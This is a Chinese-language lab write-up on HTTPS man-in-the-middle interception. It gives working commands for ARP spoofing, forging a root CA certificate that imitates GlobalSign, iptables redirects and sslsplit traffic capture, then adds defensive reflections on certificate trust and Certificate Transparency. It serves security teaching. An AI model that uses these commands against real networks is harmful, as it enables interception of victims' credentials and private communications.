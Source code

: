 # 证书伪造与SSLsplit中间人攻击

## 实验环境

- 网络拓扑<br>![](img/SSL/tuopu.jpg)

- 这一步的前提是已经成功进行中间人流量劫持，获取到了受害者的访问流量
- 这里简单再提一下，使用
    ```bash
    arpspoof -i eth0 -t 192.168.56.20 192.168.56.1
    #告诉受害者，网关的MAC地址是本机MAC地址
    #受害者IP地址 ： 192.168.56.20
    #网关IP地址 ： 192.168.56.1
    ```
    进行arp污染，执行成功后查看ARP表结果图下
    ![](img/SSL/arpspoof.png)


## 伪造证书



- 生成私钥key文件
    ```bash
    root@attacker:~/ca# openssl genrsa -out ./private/ca.key 2048
    Generating RSA private key, 2048 bit long modulus
    ........................................................................+++
    ..............................+++
    e is 65537 (0x010001)
    ```
- 用刚才生成的key自签名生成公钥证书
    ```bash
    root@attacker:~/ca# openssl req -new -x509 -days 1096 -key ./private/ca.key -out ./newcerts/ca.crt
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:BE
    State or Province Name (full name) [Some-State]:
    Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:GlobalSigN nv-sa
    Organizational Unit Name (eg, section) []:RooT CA
    Common Name (e.g. server FQDN or YOUR name) []:GlobalSign RooT CA
    Email Address []:
    ```

- 按照提示输入CA信息,尽可能让他看起来和某个正常的证书颁发机构类似<br>![](img/SSL/sp1.png)<br>![](img/SSL/sq2.png)

## SSLsplit

- 在攻击者主机上配置iptables，将通往某些端口的流量转发到工具中
    ```bash
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
    iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
    iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443
    ```
- 然后使用SSLsplit执行如下命令
    ```bash
    sslsplit -D -l ./log/connect.log -j ./log/ -S ./log/get_post_dir/ -k ./private/ca.key -c ./newcerts/ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
    #-k 指定私钥key文件，进行欺骗
    #-c 指定Root CA证书文件
    #-D Debug模式，用于输出SSLSplit状态，建议使用时加上
    #-j 指定log目录地址
    #-S 指定-j参数目录下需要记录截断GET、POST请求的子目录地址
    #-l 指定存储的连接信息文件
    #ssl IP 端口 指定ssl需要监听的端口
    #tcp IP 端口 指定tcp需要监听的端口
    ```
    ![](img/SSL/sq3.png)

- 受害者主机访问网站，提示证书未知，禁止访问<br>![](img/SSL/sq4.png)

- 因为是自己颁发的证书，不在受害者主机火狐浏览器根证书底下，所以不受信任，我们安装自己的证书到靶机的火狐浏览器下,然后就可以正常访问网页了<br>![](img/SSL/sq5.png)

- 在攻击者主机这边，可以查看到所有明文流量，甚至获取到敏感信息<br>![](img/SSL/sq6.png)

## 一些思考

- 上述实验进行完，其实看似比较流畅，但中间过程中有一个非常重要的步骤，是很难去避之不谈的--如何让靶机信任你的证书？这个问题同样也是https实现中间人劫持的一个关键。在实验过程中，我是人为在靶机上安装的。在证书这个方面,个人认为,以下几种情况给了我们实现https中间人劫持的可能性
    1. 没有安全意识或者聪明反被聪明误，当浏览器警告证书不信任时，受害者选择忽视强行添加白名单
    2. 受害者在不经意（对证书安装没有意识，别人让干什么就干什么）或者恶意软件主动的情况下，向浏览器安装了伪造证书。

- 对于上述情况，可以得出来一个很简单直接的警示，**一定要保护好本机的证书信任列表**，不要随意相信某个被浏览器警告的证书，因为这两种方法，绕来绕去都绕不过受害者主机上的证书安装操作.

- 一旦机构的私钥泄露,就有可能会有人利用私钥进行中间人攻击时的流量解密,或者--如果是根机构的话--签发自定义的证书,而如果 浏览器/应用软件 中恰好默认信任这个根机构,就会带来一些比较大的影响,所以证书机构或者一些开发组织一定得设计一套比较好的私钥保护措施和泄露应急处理方案

- 另外一种可能就是,证书机构的审查不严格或者权利被滥用,导致一些组织/个人可以拿到"安全"的证书,这些证书在浏览器中不会有任何警告提示,攻击者便可以悄悄地进行中间人攻击流量监控和截取.2011年，DigiNotar证书颁发机构颁发的伪造数字证书被用于攻击约300000个伊朗用户的Gmail账户。2013年末，谷歌发现法国政府伪造了其域名的数字证书，并将其用于实施中间人攻击。这样的例子很多,也导致一些证书机构的信任链渐渐走向破裂.所以我们也不应该盲目相信证书机构.
- 对此专门有个叫做"Certificate Transparency"的项目,用来对监管制约证书颁发机构.项目要求证书颁发机构公开地宣布其颁发的每一个数字证书(将其记录到证书日志中)。证书日志提供给用户一个查找某个给定域名颁发的所有数字证书的途径.证书记录只能被添加，而不能被删除，修改，或者追溯地将数据插入日志。证书日志使用知名的“Merkle Tree Hashes”加密机制来防止被篡改.任何人都可以查询日志，或者验证颁发的数字证书是否已经被合理地记录在了日志之中<br>![](img/SSL/sq7.png)







- [微软xbox证书泄露事件](https://docs.microsoft.com/en-us/security-updates/SecurityAdvisories/2015/3123040)
- [Xboxlive数字证书私钥泄露，用户或被中间人攻击 - freebuf](https://www.freebuf.com/news/89125.html)
- [如何应对伪造的SSL证书？-freebuf](https://www.freebuf.com/vuls/101479.html)
- [SSL中间人证书攻击测试演练 - freebuf](https://www.freebuf.com/sectool/48016.html)
- [利用ARP欺骗+sslsplit实现ssl连接嗅探 - csdn](https://blog.csdn.net/yxj0201/article/details/76596022)
- [https能防止大家都有公钥情况下的信息窃取吗？能防止中间人攻击吗？ - 知乎](https://www.zhihu.com/question/28776909/answer/42069997)









